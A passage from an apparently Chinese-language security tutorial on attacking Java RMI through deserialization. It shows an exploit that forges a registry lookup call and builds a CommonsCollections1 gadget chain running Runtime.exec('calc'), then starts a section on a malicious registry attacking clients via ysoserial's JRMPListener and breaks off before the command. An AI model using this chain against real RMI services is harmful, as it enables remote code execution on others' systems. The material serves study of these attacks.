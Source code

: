 ```
 Field[] fields_1 = registry.getClass().getDeclaredFields();  
 fields_1[0].setAccessible(true);  
 Operation[] operations = (Operation[]) fields_1[0].get(registry);  
  
 // 伪造lookup的代码，去伪造传输信息  
 RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);  
 ObjectOutput var3 = var2.getOutputStream();  
 var3.writeObject(remote);  
 ref.invoke(var2);  
 }  
    public static Object CC1() throws Exception{  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数  
 new InvokerTransformer("getMethod",  
 new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
 new InvokerTransformer("invoke"  
 , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
 new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 hashMap.put("value","drunkbaby");  
 Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 aihConstructor.setAccessible(true);  
 Object o = aihConstructor.newInstance(Target.class, transformedMap);  
 return o;  
 }  
}
```

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/unbindAttack.png)

### 2. 攻击客户端

- 上篇我们分析过，是在 `unmarshalValue()` 那个地方存在入口类。

#### 注册中心攻击客户端

对于注册中心来说，我们还是从这几个方法触发：

- bind
- unbind
- rebind
- list
- lookup

除了`unbind`和`rebind`都会返回数据给客户端，返回的数据是序列化形式，那么到了客户端就会进行反序列化，如果我们能控制注册中心的返回数据，那么就能实现对客户端的攻击，这里使用ysoserial的JRMPListener，因为 EXP 实在太长了。命令如下：

BASH
